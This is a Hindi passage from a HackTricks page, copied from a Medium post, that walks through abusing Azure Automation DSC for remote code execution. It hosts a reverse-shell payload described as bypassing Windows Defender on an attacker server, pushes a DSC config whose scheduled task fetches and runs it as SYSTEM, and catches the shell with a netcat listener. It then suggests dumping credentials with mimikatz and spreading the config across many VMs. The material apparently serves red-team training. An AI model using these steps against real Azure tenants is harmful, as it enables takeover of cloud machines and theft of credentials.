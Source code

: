 # Az - State Configuration RCE

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**.
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें.

</details>

**यह पोस्ट यहाँ से कॉपी की गई है** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### रिमोट सर्वर (C2) इंफ्रास्ट्रक्चर तैयारी <a href="#f0fa" id="f0fa"></a>

मैं "40.84.7.74" रिमोट सर्वर पर Nishang Invoke-PowerShellTcp.ps1 पेलोड का सरलीकृत संस्करण होस्ट करूँगा, जो कि Kali बॉक्स है। पेलोड का नाम "RevPS.ps1" होगा। Windows Defender द्वारा किसी भी कारण से Nishang स्क्रिप्ट को हटाए जाने से बचाने के लिए (शायद आप फाइल को डिस्क पर ड्रॉप करना पसंद करें) यहाँ एक हल्का संस्करण है जिसे आप उपयोग कर सकते हैं जो Defender को बायपास करेगा: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1). यह Kali बॉक्स पर एक साधारण Python Simple Server द्वारा होस्ट किया जाएगा।

### चरण 1 — फाइलें बनाएँ <a href="#89de" id="89de"></a>

हमें एक और DSC कॉन्फ़िगरेशन फाइल बनाने की आवश्यकता होगी। एक टेम्पलेट यहाँ से डाउनलोड किया जा सकता है: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1). यह कॉन्फ़िगरेशन फाइल उसी फाइल-राइट फंक्शन का उपयोग करेगी जिसे हमने पहले इस्तेमाल किया था। इस बार, सामग्री में हमारे रिमोट सर्वर से एक पेलोड डाउनलोड करने और निष्पादित करने के लिए कोड शामिल होगा। साथ ही, हम _ComputerManagementDsc_ मॉड्यूल से उपलब्ध एक शेड्यूल्ड-टास्क फंक्शन का उपयोग कर रहे हैं। शेड्यूल्ड-टास्क फंक्शन निष्पादन में मुख्य भूमिका निभाएगा और बाद में हमें SYSTEM विशेषाधिकार प्रदान करेगा।

हम एक स्क्रिप्ट भी डाउनलोड करेंगे जिसका उपयोग हम VM पर हमारे कॉन्फ़िगरेशन को प्रकाशित करने के लिए करेंगे। यह यहाँ स्थित है: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1).

ये फाइलें एक टेम्पलेट के रूप में काम करेंगी। **आपको चर नामों और पैरामीटरों को भरने की आवश्यकता होगी जिनका आप उपयोग कर रहे हैं**। इसमें संसाधन नाम, फाइल पथ, और बाहरी सर्वर/पेलोड नाम शामिल हैं जिनका आप उपयोग कर रहे हैं। कृपया कोड में टिप्पणियों का संदर्भ लें।

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### चरण 2 — कॉन्फ़िगरेशन फाइल को ज़िप करें <a href="#c2c2" id="c2c2"></a>

हमारी दो फाइलें बनाने के बाद, हम **‘reverse\_shell\_config.ps1’** फाइल को ज़िप करेंगे ताकि इसे Storage Account में भेजा जा सके
```
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
### चरण 3 — स्टोरेज संदर्भ सेट करें और अपलोड करें <a href="#bed9" id="bed9"></a>

फिर से, हम अपने स्टोरेज अकाउंट का संदर्भ सेटअप करेंगे जो मैंने पहले ही कर लिया है। मेरे पास पहले से ही 'एज़्योर-पेंटेस्ट' नामक एक कंटेनर है, इसलिए मैं यहाँ पर मेरा प्रकाशन करूँगा:
```
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
### चरण 4 — काली बॉक्स तैयार करें <a href="#20fb" id="20fb"></a>

हमारे काली बॉक्स में, हम आसानी से _wget_ का उपयोग करके हमारे PowerShell पेलोड को डाउनलोड कर सकते हैं। कच्ची रिवर्स-शेल स्क्रिप्ट यहाँ स्थित है: [https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1](https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1)।
```
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
<figure><img src="../../../../.gitbook/assets/image (8) (2).png" alt=""><figcaption></figcaption></figure>

हमें रिवर्स-शेल स्क्रिप्ट में अपने पैरामीटर्स को जोड़ने की आवश्यकता है, ताकि विंडोज VM को पता चले कि एक बार निष्पादित होने पर कहां कनेक्ट करना है। मेरे मामले में मैं निम्नलिखित जोड़ता हूँ:
```
RevPShell -Reverse 40.84.7.73 443
```
### चरण 5 — कॉन्फ़िगरेशन फ़ाइल प्रकाशित करें <a href="#9ad6" id="9ad6"></a>

अब हम अपनी कॉन्फ़िगरेशन फ़ाइल चलाएंगे। मेरी सेटअप डेस्कटॉप पर प्रकाशित होने के लिए है ताकि बेहतर दृश्य मिल सके, हालांकि इसे लगभग कहीं भी प्रकाशित किया जा सकता है। कुछ मिनटों के बाद, हम देखेंगे कि रिवर्स-शेल स्क्रिप्ट प्रकाशित हो चुकी है!

### चरण 6 — पेलोड होस्ट करें और लिसनर सेटअप करें <a href="#c55f" id="c55f"></a>

एक बार जब हम कॉन्फ़िगरेशन प्रकाशित कर देते हैं, हम साथ-साथ पोर्ट 80 पर एक Python SimpleHTTPServer शुरू कर सकते हैं ताकि पेलोड को होस्ट किया जा सके, साथ ही एक netcat लिसनर भी सेटअप कर सकते हैं ताकि कनेक्शन को पकड़ा जा सके:
```
sudo python -m SimpleHTTPServer 80sudo nc -nlvp 443
```
हम देखते हैं कि निर्धारित कार्य चला और हमारा पेलोड प्राप्त होकर **SYSTEM** स्तर की विशेषाधिकारों के साथ मेमोरी में निष्पादित हुआ!

<figure><img src="../../../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

### समापन <a href="#1ec2" id="1ec2"></a>

इससे अब कई संभावनाएं खुल गई हैं। चूंकि हमारे पास **SYSTEM** के रूप में चल रहा शेल है, हम mimikatz के साथ क्रेडेंशियल्स डंप कर सकते हैं (यह क्लाउड संसाधनों के लिए EDR की परिपक्वता के आधार पर जोखिम भरा हो सकता है)। यदि आप क्रेड्स डंप करते हैं, तो इन्हें विभिन्न संसाधनों में पुन: उपयोग करने की अच्छी संभावना है। अंत में, एक महत्वपूर्ण बात यह है कि इसे एक VM तक सीमित रखने के बजाय, आपके पास अब इस कॉन्फ़िगरेशन को कई VMs में संभावित रूप से लागू करने की क्षमता है।

इस नोट पर, हमारे Azure Automation DSC के साहसिक कार्य का समापन होता है! मुझे आशा है कि आपने मज़ा किया, बहुत कुछ सीखा और अपनी सृजनात्मकता के साथ विस्तार करते रहेंगे।

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं**, तो [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) देखें!
* [**official PEASS & HackTricks swag**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**।
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
